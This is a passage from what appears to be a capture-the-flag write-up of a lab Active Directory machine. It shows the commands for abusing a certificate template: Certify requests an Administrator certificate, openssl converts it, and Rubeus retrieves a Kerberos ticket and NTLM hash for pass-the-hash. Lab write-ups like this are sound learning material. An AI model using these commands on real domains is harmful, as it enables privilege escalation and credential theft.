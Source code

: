 We can request a certificate as _Administrator_ by using `request` command - 
```PowerShell
./certify.exe request /ca:sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```
If the template is available for us to request, we'll get a `.pem` certificate in stdout like this - 
![Getting PEM certificate in stdout](Images/certify-pem.png)

We'll copy the `.pem` certificate to our Linux machine where we'll use `openssl` to convert the certificate to `.pfx` format.
```Bash
openssl pkcs12 -in certificate.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out certificate.pfx
```
Now, we have a `.pfx` certificate as _Administrator_ that can be used to authenticate DC and get the credentials. We could use `certipy` for this stage like I previously demonstrated. But for now, I'll use `Rebeus.exe` to get _Administrator_ credentials. 

We'll need `certificate.pfx` on the victim machine if we're going to use `Rubeus.exe`. We'll use `python3` for web server and `certutil` for downloading to the machine. After we've finished transfering files to the victim machine, we could now use `Rebeus.exe` to interact with Kerberos.
```PowerShell
./rubeus.exe asktgt /user:administrator /certificate:cert.pfx /password:%%PASSWORD_FOR_PFX%% /getcredentials
```
We should get a Kerberos ticket and a NTLM hash that can be used to perform **PTH** attack using `evil-winrm`. Ideally, we could perform **Pass The Ticket** by using `/ptt` option instead of `/getcredentials` but on `evil-winrm`, tickets only get imported and didn't get pass so we don't get access as the _Administrator_. 

